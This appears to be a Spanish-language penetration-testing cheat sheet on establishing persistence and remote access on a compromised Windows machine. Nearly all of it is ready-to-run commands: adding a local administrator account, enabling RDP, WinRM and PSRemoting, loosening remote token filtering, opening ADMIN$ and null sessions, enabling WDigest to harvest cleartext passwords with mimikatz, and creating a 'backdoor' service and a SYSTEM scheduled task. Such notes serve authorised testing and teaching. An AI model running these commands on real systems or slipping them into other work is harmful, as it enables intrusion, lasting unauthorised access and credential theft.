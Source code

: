- Comprobar arquitectura de Windows
	- Sin privilegios: 
		```powershell
		$env:PROCESSOR_ARCHITECTURE	
		```
	- Con privilegios
		```powershell
		(Get-CimInstance Win32_OperatingSystem).OSArchitecture
		```
- Convertir en archivo de texto, supongamos `infoMimikatz`, con formato grepeable correcto (a veces la extracción de mimikatz da problemas)
	```bash
	dos2unix infoMimikatz
	```

## Con acceso de administrador a un sistema Windows
### Crear un usuario persistente con permisos de administrador
- **Crear un usuario:**
    ```powershell
    net user pentester StrongP@ssword123 /add
    ```
- **Añadir el usuario al grupo de administradores:**
    ```powershell
    net localgroup Administrators pentester /add
    ```
### Habilitar RDP (Escritorio Remoto)
- **Habilitar conexiones RDP:**
    ```powershell
    # Desde CMD
    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    # Desde powershell
    Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0

    ```
- **Configurar el Firewall para permitir tráfico RDP:**
    ```powershell
    netsh advfirewall firewall set rule group="remote desktop" new enable=yes
    ```
### Activar el Modo Admin Restricto (Restricted Admin Mode para RDP)
```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```
### Evitar restricciones con `LocalAccountTokenFilterPolicy`
Permite que las cuentas locales se autentiquen remotamente y conserven sus privilegios administrativos sin restricciones adicionales. Útil para herramientas como `psexec` o `impacket-psexec`, ya que elimina limitaciones predeterminadas que podrían bloquear RCE. 
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
### Habilitar y configurar `psexec` y herramientas basadas en SMB
Para operaciones administrativas avanzadas, como el uso de herramientas como `psexec`, **ADMIN$ debe estar habilitado**
- **Habilitar el servicio ADMIN$ (si está deshabilitado):**
    ```powershell
    sc config lanmanserver start= auto
    sc start lanmanserver
    ```
- **Abrir ADMIN$ para autenticación remota:**
    ```powershell
    net share ADMIN$=C:\Windows /grant:Administrators,FULL
    ```
### Habilitar PowerShell Remoting
Habilita WinRM automáticamente
```powershell
Enable-PSRemoting -Force
```
### Habilitar WinRM (para autenticación remota con PowerShell y herramientas como Evil-WinRM)
```powershell
winrm quickconfig -force
```
### Configurar autenticación sin contraseña (null sessions)
- **Deshabilitar restricciones de null sessions:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d "C$\IPC$" /f
    ```
- **Opcional: Permitir null sessions a nivel de usuario:**
    ```powershell
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v RestrictNullSessAccess /t REG_DWORD /d 0 /f
    ```

### Habilitar autenticación WDigest (credenciales en texto claro en memoria)
Configura el sistema para almacenar credenciales en texto plano en memoria (LSASS). Si tras habilitar WDigest un usuario se conecta autentica en el sistema, tras volcar la sam, podremos extraer credenciales en texto claro con `sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords`
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```
### Configurar un servicio persistente con acceso remoto
```powershell
sc create backdoor binpath= "cmd.exe /k start cmd.exe" start= auto
```
### Habilitar credenciales almacenadas para acceso remoto
- Permite el uso de credenciales almacenadas para establecer conexiones remotas
	```powershell
	reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableDomainCreds /t REG_DWORD /d 0 /f
	```
- Después de esta configuración se pueden utilizar comandos como 
	```powershell
	cmdkey /add:target_machine /user:admin_user /pass:password123
	```
	Y conectarnos al sistema de manera remota sin tener que proporcionar credenciales nuevamente (facilita escenarios en los que el Double Hop puede limitar el acceso)
### Configurar una tarea programada maliciosa
- **Crear una tarea:**
    ```powershell
    schtasks /create /tn "PentestTask" /tr "cmd.exe /c whoami > C:\users\public\whoami.txt" /sc onlogon /ru SYSTEM
    ```

